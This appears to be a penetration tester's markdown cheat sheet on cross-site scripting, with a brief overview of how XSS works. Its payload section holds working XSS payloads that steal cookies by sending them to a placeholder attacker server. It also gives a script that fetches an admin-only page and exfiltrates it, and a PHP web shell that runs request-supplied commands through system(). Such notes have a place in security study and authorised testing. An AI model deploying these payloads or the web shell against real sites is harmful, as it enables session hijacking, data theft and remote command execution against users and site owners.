 # XSS - Cross Site Scripting

## Overview

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page

## Description

Cross-Site Scripting (XSS) attacks occur when:

Data enters a Web application through an untrusted source, most frequently a web request.
The data is included in dynamic content that is sent to a web user without being validated for malicious content.

## Common Payloads

Steal cookies

	<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
	<img src=x onerror=fetch("http://<YOUR_SERVER_IP>/"+document.cookie)>
	"><img src=x onerror=fetch("http://<YOUR_SERVER_IP>/"+document.cookie)>
	'><img src=x onerror=fetch("http://<YOUR_SERVER_IP>/"+document.cookie)>
	<script>document.location='http://<YOUR_SERVER_IP>/?cookie='+document.cookie;</script>

If there is no cookie, e can also try to access pages the only the admin can have access, by doing:

	<script>
	fetch("http://page_that_only_admin_has_access_to")
	.then(response => response.text()) // Convert the response to text
	.then(data => {
		fetch("http://our_server_ip/?data=" + encodeURIComponent(data)); // Exfiltrate data
	})
	.catch(error => console.error("Error fetching the messages:", error));
	</script>

This fetches the page that onyl the admin has access to, converts it to text, uri encodes it, and then sends the data back to us.

## php payloads

	if isset($_REQUEST['cmd']){
		system($_REQUEST['cmd']);
	}
	then we pass the cmd arg in the request:
	<url>?cmd=whoami


## Relevant Information

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

https://owasp.org/www-community/attacks/xss/

https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting